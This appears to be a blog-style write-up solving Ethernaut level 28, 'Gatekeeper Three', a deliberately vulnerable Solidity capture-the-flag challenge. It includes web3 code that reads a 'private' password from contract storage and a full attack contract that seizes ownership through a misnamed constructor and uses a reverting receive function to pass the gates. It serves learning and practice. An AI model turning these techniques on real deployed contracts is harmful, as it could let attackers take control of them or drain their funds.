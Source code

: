 ```yaml
---
title: Level 28 - Gatekeeper Three
slug: level-28
published: 06-06-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut28.svg
---
```


## Objectives

1. Become an entrant.

## Vulnerabilities

N/A, It's a technical skill test.

## Exploit

1. Create a `SimpleTrick` instance by calling `createTrick`.

2. Copy the `SimpleTrick` instance address from the function `trick`.

3. From there, you can read the value in storage slot 2 of the address copied from the previous setps
   . This value is the `password` variable. You can use the web3 library for this directly in the console just like
   the following :

```javascript
const hexPassword = await web3.eth.getStorageAt(
  "0xCc6a4fE3cD105577D31c08C6792bfb7bCB8800c9",
  2
);
const uintPassword = await web3.utils.hexToNumber(hexPassword);
```

4. Call `getAllowance` with `uintPassword` of the prvious step as argument. This will change `allowEntrance` to `true`.

5. Write and deployt the following hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./GatekeeperThree.sol";

contract GatekeeperThreeHack {
    GatekeeperThree target;

    constructor(address payable _targetAddress) {
        target = GatekeeperThree(_targetAddress);
    }

    function enterHack() external payable {
        target.construct0r();
        (bool success, ) = payable(target).call{value: 0.002 ether}("");
        require(success, "call failed");
        target.enter();
    }

    receive () external payable {
        revert();
    }
}
```

6. Call `enterHack` from your deployed hack contract. This function does three things.

first it calls `construct0r` which makes the hack contract's address the `owner`.

Then it sends 0.002 Eth to the GateKeeperThree address to make it's balance greater than 0.001 Eth.

Lastly, it calls `enter`. At this point we pass the three `require` functions.

### Let's explain how each gates work

```solidity
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

`msg.sender` is the _hack contract_'s address which is the `owner`. `tx.origin` is the EOA that we use to initiate the
transaction. They are not the same.

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

`allowEntrance` is set to true at step 4.

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

`address(this).balance` is greater than 0.001 Eth since our hack contract sent 0.002 Eth in `enterHack`.

`payable(owner).send(0.001 ether)` is false since we have created the `receive` of our hack contract to revert
any transaction.

## Suggested mitigation

N/A, It's a technical skill test.

## Further reading

- SWC-136 - Unencrypted private data on-chain <ExternalLink href={"https://swcregistry.io/docs/SWC-136"} />
